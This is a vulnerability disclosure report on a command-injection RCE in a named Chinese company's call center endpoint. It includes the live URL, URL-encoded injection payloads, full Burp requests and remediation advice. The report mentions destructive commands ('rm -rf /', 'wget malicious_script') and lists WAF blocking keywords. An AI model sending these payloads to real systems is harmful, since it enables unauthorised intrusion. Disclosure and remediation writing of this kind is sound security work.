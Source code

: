 # Vulnerability Title
**Remote Code Execution (RCE) Vulnerability in Aishida Co., Ltd. Call Center System**  

---

# Vulnerability Overview
A Remote Code Execution (RCE) vulnerability exists in the interface of Aishida Co., Ltd.'s call center system. Attackers can exploit this vulnerability by crafting malicious request parameters to execute arbitrary shell commands on the target server, thereby gaining full control of the system. The root cause is insufficient input validation, allowing attackers to inject command separators (e.g., `||`) to trigger malicious code execution.  

---

# Asset Verification
## Company Profile
Aishida Co., Ltd. (Stock Code: 002403), founded in 1978, is a publicly listed enterprise specializing in the R&D, manufacturing, and marketing of cookware, small kitchen appliances, and industrial robots. With nearly 10,000 employees, the company achieved over 3 billion RMB in sales revenue in 2021. It operates production facilities in Wenling, Jiashan, Hubei, and Shanghai, and maintains a comprehensive sales network covering over 60,000 terminals (direct sales + distributors), e-commerce platforms, live streaming, social communities, group purchasing, TV shopping, cross-border e-commerce, and OEM exports. Brand ambassadors include Sun Li and Ren Jialun.  

Aishida has participated in drafting 20 national or industry standards for cookware, including non-stick pans, smokeless pans, aluminum pressure cookers, and stainless steel pressure cookers. The GB 15066—2004 stainless steel pressure cooker standard, co-drafted by Aishida, won the China Standards Innovation Contribution Award. The company is recognized as a National Intellectual Property Pilot Enterprise and a National Torch Program Key High-Tech Enterprise. Guided by its mission, "Manufacturing Healthy Kitchen Products to Enhance Human Life Quality," Aishida strives to promote green kitchens and aims to evolve into a dual-driven enterprise integrating cookware, home goods, consumer products, and intelligent manufacturing.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741960859990-099ce111-60ab-434b-8922-7ca6c6af26ea.png)  

## Corporate Information
### ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961216972-90c4cb20-8b40-4e15-a67c-23f0972ffaac.png)
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961341526-993f929b-b0c0-4640-a63d-966165b11ee1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961255910-c1d5af07-3ddd-45af-ac8c-04f6fbde7912.png)  

+ **Chinese Name:** 爱仕达股份有限公司  
+ **English Name:** Aishida Co., Ltd.  
+ **Website:** [http://www.chinaasd.com](http://www.chinaasd.com)  
+ **Email:** 445778987@qq.com

---

# Technical Analysis
## Vulnerability Location
**Affected Endpoint:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=[User Input]  
```

## Root Cause
1. **Lack of Input Sanitization:** The `file` parameter is directly concatenated into system commands (e.g., using `system()` or `popen()` functions).  
2. **Command Injection Logic:**  
The server expects to execute commands such as:  

```bash
ffmpeg -i [User Input].amr output.mp3  
```

If an attacker injects `a 'aaabbbcccddd || sleep 5 ||`, the executed command becomes:  

```bash
ffmpeg -i a 'aaabbbcccddd || sleep 5 ||.amr output.mp3  
```

The shell interpreter treats `||` as command separators, causing `sleep 5` to execute independently.

---

# Proof of Concept (PoC)
## PoC 1: Delay via Sleep Command
### Sleep for 5 Seconds
1. **PoC Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a 'aaabbbcccddd || `sleep 5`   ||  
```

2. **URL-Encoded Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20||  
```

3. **Validation:**  
    - Observe response time: A 5-second delay confirms successful execution.  
    - Replace `sleep 5` with other commands (e.g., `id`) to retrieve system user information.

### Burp Suite Request
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

### Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961160896-35b79252-647c-4447-ac0b-b75b87a5b4c1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961815540-79db6fd6-544e-44fc-aa78-6d7471e2cae6.png)  

---

## PoC 2: Sleep for 10 Seconds
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%2010`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961982633-d84201b4-5d26-421b-b924-ef003e78fdd6.png)  

---

# Impact Assessment
1. **Full Server Compromise:** Attackers can execute commands like `rm -rf /` or `wget malicious_script`, leading to data breaches or system crashes.  
2. **Lateral Movement:** Compromised servers can be used as pivots to attack internal databases or other systems.  
3. **Compliance Risks:** Violates Articles 21 and 25 of China’s Cybersecurity Law, exposing the company to legal penalties.  
4. **Reputation Damage:** Data breaches severely harm brand credibility.

---

# Remediation Strategies
## 1. Input Filtering & Whitelisting
+ **Regex Filtering:** Restrict the `file` parameter to valid characters (e.g., `^[a-zA-Z0-9_\-\.]+$`), blocking inputs containing `|`, `&`, `;`, etc.  
+ **Predefined File List:** Match input against a predefined list if `file` corresponds to fixed resources.

## 2. Secure Command Execution
+ **Parameterized APIs (Python Example):**  

```python
subprocess.run(["ffmpeg", "-i", user_input + ".amr", "output.mp3"], shell=False)  
```

+ **Avoid Command Concatenation:** Refrain from using high-risk functions like `os.system()`.

## 3. Least Privilege
+ **Non-root Execution:** Run web services under a non-root user with restricted filesystem access.

## 4. Emergency Mitigation
+ **WAF Rules:** Block requests containing keywords like `sleep`, `&&`, `||`.  
+ **Log Monitoring:** Alert on suspicious activities (e.g., `/bin/sh` invocations).

## 5. Long-term Hardening
+ **Code Audit:** Review all interfaces for similar vulnerabilities.  
+ **Penetration Testing:** Conduct regular third-party black-box testing.

---

**Formatting Notes:**  

1. Use `---` to separate sections for clarity.  
2. Specify code block languages (e.g., `bash`, `http`) for readability.  
3. Include technical details (e.g., regex patterns, code samples) in remediation strategies.  
4. Supplement PoC sections with screenshots to enhance credibility.

